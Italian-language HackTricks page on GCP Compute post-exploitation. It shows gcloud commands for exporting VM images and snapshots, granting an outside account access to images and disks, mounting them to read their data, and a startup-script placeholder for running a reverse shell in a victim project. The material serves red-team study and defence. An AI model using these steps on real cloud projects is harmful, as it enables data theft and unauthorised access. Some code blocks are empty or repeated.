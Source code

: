 # GCP - Compute Post Exploitation

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

Per ulteriori informazioni su Compute e VPC (Networking) controlla:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Esporta e ispeziona immagini localmente

Ciò consentirebbe a un attaccante di **accedere ai dati contenuti all'interno delle immagini esistenti** o **creare nuove immagini di VM in esecuzione** e accedere ai loro dati senza avere accesso alla VM in esecuzione.

È possibile esportare un'immagine di VM in un bucket e quindi scaricarla e montarla localmente con il comando:

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```

Per eseguire questa azione, l'attaccante potrebbe aver bisogno di privilegi sul bucket di archiviazione e sicuramente **privilegi su cloudbuild** poiché è il **servizio** che verrà richiesto di eseguire l'esportazione. Inoltre, affinché ciò funzioni, il SA di codebuild e il SA di compute hanno bisogno di autorizzazioni privilegiate. Il SA di cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` ha bisogno di:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

E il SA `<project-id>-compute@developer.gserviceaccount.com` ha bisogno di:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Esporta e ispeziona snapshot e dischi localmente

Non è possibile esportare direttamente snapshot e dischi, ma è possibile **trasformare uno snapshot in un disco, un disco in un'immagine** e, seguendo la **sezione precedente**, esportare quell'immagine per ispezionarla localmente

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Ispeziona un'immagine creando una VM

Con l'obiettivo di accedere ai **dati memorizzati in un'immagine** o all'interno di una **VM in esecuzione** da dove un attaccante **ha creato un'immagine**, è possibile concedere l'accesso a un account esterno sull'immagine:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

e quindi creare una nuova VM da essa:

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

Se non è possibile concedere l'accesso all'account esterno sull'immagine, è possibile avviare una VM utilizzando quell'immagine nel progetto della vittima e **far eseguire i metadati un reverse shell** per accedere all'immagine aggiungendo il parametro:

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### Ispeziona uno Snapshot/Disk collegandolo a una VM

Con l'obiettivo di accedere ai dati memorizzati in un disco o in uno snapshot, è possibile trasformare lo snapshot in un disco, un disco in un'immagine e seguire i passaggi precedenti.

Oppure è possibile concedere l'accesso a un account esterno sul disco (se il punto di partenza è uno snapshot, concedere l'accesso allo snapshot o creare un disco da esso):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**Collegare il disco** a un'istanza:

```plaintext
gcloud compute instances attach-disk INSTANCE_NAME --disk DISK_NAME --zone ZONE
```

```html
<p>gcloud compute instances attach-disk INSTANCE_NAME --disk DISK_NAME --zone ZONE</p>
```

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

Montare il disco all'interno della VM:

1. **Accedi tramite SSH alla VM**:

```sh
gcloud compute ssh [NOME_ISTANZA] --zone [ZONA]
```

2. **Identifica il disco**: Una volta all'interno della VM, identifica il nuovo disco elencando i dispositivi di archiviazione. Di solito, puoi trovarlo come `/dev/sdb`, `/dev/sdc`, ecc.
3. **Formatta e monta il disco** (se è un disco nuovo o non formattato):

* Crea un punto di montaggio:

```sh
sudo mkdir -p /mnt/disks/[DIRECTORY_DI_MONTAGGIO]
```

* Monta il disco:

```sh
sudo mount -o discard,defaults /dev/[DISPOSITIVO_DISCO] /mnt/disks/[DIRECTORY_DI_MONTAGGIO]
```

Se **non puoi concedere l'accesso a un progetto esterno** allo snapshot o al disco, potresti dover **eseguire queste azioni all'interno di un'istanza nello stesso progetto dello snapshot/disco**.

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF**, controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>
